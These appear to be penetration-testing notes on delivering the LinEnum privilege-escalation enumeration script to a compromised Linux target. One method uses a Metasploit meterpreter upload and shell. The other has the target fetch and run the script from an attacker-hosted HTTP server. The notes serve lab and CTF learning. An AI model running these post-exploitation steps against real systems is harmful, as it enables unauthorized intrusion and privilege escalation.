


LinEnum.sh
site:
https://github.com/rebootuser/LinEnumUpload
with metasploit
kali@kali:~$ cd /home/kali/Desktop
kali@kali:~$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh #first we have to download the script
kali@kali:~$ msfconsole #run metasploit
msf> spool /home/kali/Desktop/LinEnumOutput.txt #save all output of metasploit on file
meterpreter > upload /home/kali/Desktop/LinEnum.sh . #upload the scripts in the current directory(.)
meterpreter > execute -f /bin/sh -i -c #shell on the linux target machine
shell> chmod +x LinEnum.sh #make executable the file
shell> ./LinEnum.sh #run the script
CTRL+C #exit shell
CTRL+Z #background meterpreter
msf> spool off #end to save on file
Upload without metasploitattacker machine
root@kali:/# cd /var/www/html/
root@kali:/# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh #need to be root to Download
root@kali:/# ls
root@kali:/# python3 -m http.server 80 -d /var/www/html #need to be root, Set up HTTP server on the folder where we have saved the payload
target machine
target@debian:$ wget http://<IpAttacker>/LinEnum.sh #Download from the target machine
target@debian:$ chmod +x LinEnum.sh
target@debian:$ ./LinEnum.sh #Execute
Remember that to take the IpAddress of the Attacker(you) if you are connected to the network of the
target machine via openvpn you need to do ifconfig on the attacker machine and take note of the IpAddress of the
interface connected to the target's network
